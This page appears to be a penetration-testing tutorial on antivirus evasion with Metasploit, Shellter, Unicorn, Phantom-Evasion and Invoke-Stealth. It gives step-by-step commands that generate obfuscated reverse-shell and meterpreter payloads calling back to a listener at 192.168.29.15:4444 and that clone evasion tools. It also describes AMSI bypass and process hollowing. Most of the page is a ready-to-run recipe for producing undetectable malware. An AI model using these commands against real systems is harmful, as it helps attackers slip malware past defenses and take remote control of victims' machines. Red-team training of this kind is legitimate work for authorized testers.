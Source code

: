 
<img width="900" alt="Anti-Virus-Evasion-Tools" src="https://github.com/deryacortuk/Penetration-Testing-Tutorial/assets/53267226/160f278e-0c56-4857-986d-463d4b04f07f">

## Bypassing Windows Defender with hoaxshell and AMSI trigger

HoaxShell and AMSI bypass techniques are commonly employed by malicious individuals as part of their offensive security tactics. HoaxShell serves as a robust framework specifically designed to circumvent multiple security controls, notably including the Antimalware Scan Interface (AMSI) trigger. By utilizing HoaxShell, attackers aim to evade detection by antivirus software and other protective measures. On the other hand, AMSI, developed by Microsoft, acts as an interface for antivirus and other security solutions to scan and identify malicious
code present within active processes. It is an essential component that enables the detection of potentially harmful activities.


## Harnessing Metasploit templates and custom binaries for antivirus evasion

Metasploit is a powerful penetration testing framework which provides various templates and techniques for effective Antivirus (AV) evasion. These templates offer options like code obfuscation, polymorphism, and packing to create custom payloads that are less likely to be flagged by AV software. By leveraging the versatile capabilities of Metasploit, practitioners can significantly improve their chances of successfully evading AV defenses. This allows pen testers for more
comprehensive security assessments and testing.

## Baseline

Baseline payload To establish a baseline, we will generate the standard msfvenon reverse shell payload for a 32-bit Windows system using the command msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe >
basepayload.exe.

Metasploit’s vast collection of exploits, payloads, and evasion techniques enables successful system compromise by evading AV detection. Utilizing advanced evasion techniques reduces detection rates,
enhancing the effectiveness of security assessments.

## Shellter

Shellter is an advanced and dynamic shellcode injection tool which is widely utilized in red teaming engagements and security assessments carried out by penetration testers and ethical hackers. Its main objective is to evade AV software and IDS. Shellter achieves this by employing dynamic encryption or encoding techniques for payloads.
Using the technique known as process hollowing, Shellter injects malicious shellcode into the memory space of legitimate processes. Moreover, researchers can leverage this tool to evaluate the effectiveness of security controls and identify
potential vulnerabilities in an organization’s defense mechanisms.
Shellter’s unique and powerful feature is dynamic binary instrumentation and injection, allowing seamless payload injection into Windows executables, evading antivirus and intrusion detection systems
effectively.

## Unicorn

The utilization of Magic Unicorn is a straightforward tool which involves
executing a PowerShell downgrade attack and directly injecting shellcode into the system’s memory. The usage process is uncomplicated: by launching Magic Unicorn (ensuring the presence of Metasploit in the correct path if opting for Metasploit methods), the tool automatically generates a PowerShell command. All that is required is to copy and paste this generated code into a command line
window or a payload delivery system for seamless execution.
1. Clone Unicorn by running the command git clone github.com/trustedsec/unicorn

2.Next, navigate to the new Unicorn directory using the command cd
unicorn. To view the available Unicorn options and comprehensive
descriptions of each attack, use the command ./unicorn.py --help
3.To create a payload with Unicorn, use the following command:
./unicorn.py windows/meterpreter/reverse_tcp <Listener IP>
<Listener Port>

Unicorn excels in generating undetectable payload executables through powerful encoding and obfuscation techniques, enabling seamless exploitation of target systems while evading antivirus and
security solutions.

## Phantom-Evasion

Phantom-Evasion is a python-based tool designed for antivirus evasion purposes. It has the capability to generate executable files that are highly difficult to detect, even when using the widely used x86 msfvenom payload.

1. Begin by downloading the tool using the command git clone https://github.com/oddcod3/Phantom-Evasion.git
2. Navigate to the Phantom-Evasion folder by executing the command cd /phantom-evasion. Grant executable permissions and set up the required dependencies by running the commands chmod +x ./phantom-evasion.py and ./phantom-evasion.py --setup
3.Generate the payload using the following command: python3 phantomevasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 192.168.29.15 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -
jr 0 -E 5 -f exe -o PhEv.exe
Phantom Evasion’s exceptional polymorphic engine and payload
generation capabilities empower penetration testers to create undetectable payloads, bypassing antivirus software and security controls for successful system infiltration.

## Invoke-Stealth

This tool helps you to automate the obfuscation process of any script written in PowerShell with different techniques. You can use any of them separately, together or all of them sequentially with ease, from Windows or Linux.

1. Begin by downloading Invoke-Stealth. Execute the command git clone
https://github.com/JoelGMSec/Invoke-Stealth.git to download the tool.


2. Navigate to the Invoke-Stealth folder using the command cd InvokeStealth. Run the command pwsh Invoke-Stealth.ps1 --help to explore the available obfuscation techniques and other utilities.
3.Use the following command: msfvenom -p windows/powershell_reverse_tcp
LHOST=192.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -f psh -o
payloadummed.ps1.
4. Execute the following command pwsh Invoke-Stealth.ps1
/home/ummedmeel/Desktop/payloadummedm.ps1 -technique All.

Invoke-Stealth generates stealthy PowerShell scripts using
obfuscation and encryption to evade antivirus detection and execute covert operations.



